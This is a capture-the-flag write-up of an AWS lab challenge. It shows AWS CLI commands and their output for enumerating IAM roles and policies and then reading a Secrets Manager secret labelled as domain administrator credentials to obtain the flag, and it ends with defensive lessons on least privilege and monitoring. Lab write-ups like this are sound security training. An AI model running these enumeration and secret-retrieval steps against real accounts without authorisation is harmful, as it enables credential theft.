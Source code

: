 # Cloudfoxable 4 - Backwards

Challenge Statement

In this challenge, we needed to retrieve a hidden flag stored in AWS Secrets Manager. We were given access to an IAM role named Alexander-Arnold, which had permissions that could help us access the flag. Our task was to enumerate IAM roles, analyze permissions, and extract the flag from AWS Secrets Manager.

Analysis

The challenge required us to investigate the permissions assigned to Alexander-Arnold and determine if they allowed access to AWS Secrets Manager.

Step 1: Enumerating IAM Roles

First, we listed the available IAM roles using AWS CLI:

aws iam list-roles --profile cloudfoxable

Output:

{
"Roles": [
{
"RoleName": "Alexander-Arnold",
"Arn": "arn:aws:iam::418295694570:role/Alexander-Arnold"
}
]
}

This confirmed the presence of the Alexander-Arnold role.

Step 2: Checking Attached Policies

We then checked the policies attached to Alexander-Arnold:

aws iam list-attached-role-policies --role-name Alexander-Arnold --profile cloudfoxable

Output:

{
"AttachedPolicies": [
{
"PolicyName": "corporate-domain-admin-password-policy",
"PolicyArn": "arn:aws:iam::418295694570:policy/corporate-domain-admin-password-policy"
}
]
}

Step 3: Reviewing the Policy

We retrieved the policy document to analyze its permissions:

aws iam get-policy-version --policy-arn arn:aws:iam::418295694570:policy/corporate-domain-admin-password-policy --version-id v1 --profile cloudfoxable

Output:

{
"PolicyVersion": {
"Document": {
"Statement": [
{
"Action": [
"secretsmanager:GetSecretValue"
],
"Effect": "Allow",
"Resource": [
"arn:aws:secretsmanager:us-east-1:418295694570:secret:DomainAdministrator-Credentials-mQa7vU"
]
}
]
}
}
}

This indicated that the Alexander-Arnold role had access to retrieve a specific secret from AWS Secrets Manager.

Step 4: Listing Secrets

We listed available secrets to identify the relevant one:

aws secretsmanager list-secrets --profile cloudfoxable

Output:

{
"SecretList": [
{
"Name": "DomainAdministrator-Credentials",
"ARN": "arn:aws:secretsmanager:us-east-1:418295694570:secret:DomainAdministrator-Credentials-mQa7vU"
}
]
}

Step 5: Retrieving the Secret Value

Since our policy allowed access to DomainAdministrator-Credentials, we extracted the secret using:

aws secretsmanager get-secret-value --secret-id DomainAdministrator-Credentials --profile Alexander-Arnold

Output:

{
"SecretString": "FLAG{backwards::IfYouFindSomethingInterstingFindWhoHasAccessToIt}"
}

The flag was successfully retrieved!

Solution Summary

Enumerated IAM roles using aws iam list-roles.

Checked attached policies for Alexander-Arnold.

Retrieved and analyzed the policy document to identify secretsmanager:GetSecretValue permissions.

Listed secrets in AWS Secrets Manager.

Retrieved the secret value, successfully obtaining the flag.

Flag:

FLAG{backwards::IfYouFindSomethingInterstingFindWhoHasAccessToIt}

Reflection

Approach Taken

Enumerated IAM roles and policies.

Identified secretsmanager:GetSecretValue permissions.

Retrieved secret values using AWS CLI.

Challenges Faced

Understanding AWS IAM role permissions.

Ensuring the correct AWS profile was used for requests.

Security Takeaways

IAM permissions should follow the principle of least privilege.

The policy allowed access to sensitive credentials, which could be exploited if misconfigured.

Secrets should have strict access controls.

Any role with secretsmanager:GetSecretValue permissions should be carefully managed.

AWS CloudTrail should be enabled to monitor access to secrets.

Logging and alerts should be set up for sensitive secret access attempts.

This challenge reinforced the importance of IAM privilege management and the need for secure access controls in AWS Secrets Manager. 🚀
